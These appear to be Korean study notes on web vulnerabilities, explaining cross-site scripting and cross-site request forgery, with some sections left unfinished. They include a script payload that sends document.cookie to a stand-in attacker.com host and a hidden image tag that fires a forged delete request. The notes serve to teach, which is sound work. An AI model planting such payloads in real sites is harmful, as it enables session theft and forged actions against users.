 #### ⚠️ Cross-site Scripting (XSS)

먼저, 앞서 설명한 JavaScript와 Cookie에 대해서 상기하고 넘어가자.
- JavaScript: Web Page에서 더 Dynamic한 상호작용을 할 수 있도록 한다.
- Cookie: Web Server가 사용자에 대한 이전의 정보를 기억할 수 있게 하는 것

이제 본격적으로 Cross-site Scripting에 대해서 알아보자.

지금까지의 취약점이랑은 살짝 다른게
앞에서는 Attacker에 의해 Server-side Code에서 문제가 발생했지만,
XSS에서는 Attacker에 의해 Client-side Code쪽에서 문제가 발생한다.

Attacker가 Client-size Code에 다음과 같은 JS Code를 삽입한다고 생각해보자.
```js
<script>
window.location="http://attacker.com?" + document.cookie
</script>
```

그러면 Session ID (SID) Cookie가 Attacker가 구축한 Website로 날아가게 된다.
- 만약 Attacker가 `index.php`라는 `$_GET['SID']`를 Dump하는 페이지를 구축해놨으면 SID가 그 사이트에 기록되게 된다.
- 그리고 Attacker는 이 정보를 바탕으로 악의적인 짓을 저지를 수 있게된다.

여기까지가 공격의 개괄적인 시나리오이다.

🔫 **Stored XSS (a.k.a Persistent XSS)**
`✏️ 정리 필요!`

🔫 **Reflected XSS**
`✏️ 정리 필요!`
#### ⚠️ Cross-site Request Forgery (CSRF)

이제 마지막 공격 방식에 대해서 알아보자.

먼저 앞선 경우와 마찬가지로 Target Wdb Server를 하나 가정하고 시작하자.
이 `abc.com`이라는 Target Web Server는 게시판 기능을 운영하고 있다.
다음과 같음 HTTP Request를 보냄으로써 특정 게시글을 지우거나 수정할 수 있다.
```
USER -> abc.com?action=edit&num=105 -> SERVER
```
타인이 내 Post를 Edit하려고 하면 막아야 할 것이다.

공격자 Server도 가정하자.
`puppy.com`이라는 Victim을 낚으려고 강아지 사진을 올려둔 사이트가 있다고 가정하자.
이 `puppy.com`에 들어가면 Attacker의 Javascrpit Code가 실행이 될 것이다.

그러면 이제 Victim이 한 탭에서는 `abc.com`을, 한 탭에서는 `puppy.com`을 켜놓고 있다고 하자.

이때 여기서 공격자가 바로 어떤 document.cookie를 Execute하는 것은 의미가 없다.
Same Origin Policy 때문인데, CSRF는 이를 벗어나서 공격할 수 있다.

🔫 **CSRF**
Attacker의 Server에 다음과 같이 abc.com의 이미지를 긁어오려고 하는 HTTP Request가 있다고 가정하자.
```
<img src="abc.com?action=delete&num=100" height="0" width="0"> </img>
```
위와 같은 이미지는 없으므로 당연히 아무 이미지도 안 뜰 것이다.
